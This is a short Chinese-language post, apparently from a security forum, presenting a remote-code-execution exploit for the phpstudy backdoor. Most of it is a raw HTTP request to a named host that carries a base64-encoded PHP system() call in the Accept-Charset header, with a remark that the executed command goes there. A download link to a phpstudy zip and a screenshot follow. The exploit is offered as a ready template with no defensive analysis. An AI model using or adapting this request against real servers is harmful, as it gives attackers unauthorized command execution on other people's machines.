 # Phpstudy 后门 RCE

来自圈子社区核心群

版本一

GET /1.php HTTP/1.1
Host: hedysx.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,_/_;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding:gzip,deflate
Accept-Charset:这里就是要执行的命令 base64 加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
Connection: close

版本二：  
[phpstudy](https://www.hedysx.com/wp-content/uploads/2019/09/phpstudy.zip)

[![](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10-1024x529.png)](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10.png)

[](javascript:;)[0](#comments)
